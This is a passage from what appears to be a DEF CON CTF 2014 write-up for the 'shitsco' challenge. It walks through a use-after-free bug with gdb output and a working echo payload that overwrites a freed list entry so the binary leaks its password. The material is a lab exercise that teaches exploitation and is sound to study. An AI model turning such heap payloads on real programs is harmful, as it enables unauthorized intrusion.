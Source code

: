 ```
$ $ $ $ $ $ c: AAAABBBBlDDDD
Segmentation fault (core dumped)
```

Using a debugger to check out the crash:

```

$ gdb -q ./shitsco ./core
Reading symbols from /home/ron/defcon-ctf-2014/shitsco/shitsco...(no debugging symbols found)...done.

Core was generated by `./shitsco'.
Program terminated with signal <span class="Constant">11</span>, Segmentation fault.
<span class="Comment">#0  0xf75e2b75 in vfprintf () from /lib32/libc.so.6</span>
(gdb) x/i <span class="Identifier">$eip</span>
=> <span class="Constant">0xf75e2b75</span> <vfprintf+<span class="Constant">21189</span>>: repnz scas al,BYTE PTR es:[edi]
(gdb) <span class="Constant">print</span>/x <span class="Identifier">$edi</span>
$1 = <span class="Constant">0x42424242</span>
```

We can see from this that it crashed in vfprintf() while reading 0x42424242 - that's "BBBB". Sweet!

Now the last step: I want to read the password, so I can use 'enable'. So I set the commandline to 0x0804C3A0, which is the address of the password in memory. I also pipe into "head" because it causes an infinite loop:

```

$ echo -ne 'set a aaaaaaaaaaaaaaaa\nset b bbbbbbbbbbbbbbbb\nset a\nset b\nset c AAAA\xa0\xc3\x04\x08\x6c\xc3\x04\x08DDDD\nshow\n' | ./shitsco | head -n12

 oooooooo8 oooo        o88    o8
888         888ooooo   oooo o888oo  oooooooo8    ooooooo     ooooooo
 888oooooo  888   888   888  888   888ooooooo  888     888 888     888
        888 888   888   888  888           888 888         888     888
o88oooo888 o888o o888o o888o  888o 88oooooo88    88ooo888    88ooo88

Welcome to Shitsco Internet Operating System (IOS)
For a command list, enter ?
$ $ $ $ $ $ c: AAAA?lDDDD
: this_is_the_password
```

We got the password!! From there, all you have to do is use 'enable', then 'flag' to get the flag.

## Summary

Essentially, this was a use-after-free bug. If you de-allocated the first entry, the 'head' pointer wasn't updated and still pointed at freed memory. If you can allocate new memory of the same size, it'll take the place of the head structure and give the attacker some control over the name, value, next, and previous pointers. In theory, we could almost certainly use this for an arbitrary memory write, but in the context of this challenge it's enough to read the password from memory.

This is the first time I've seen a use-after-free issue in a CTF, so it was really cool to see it!
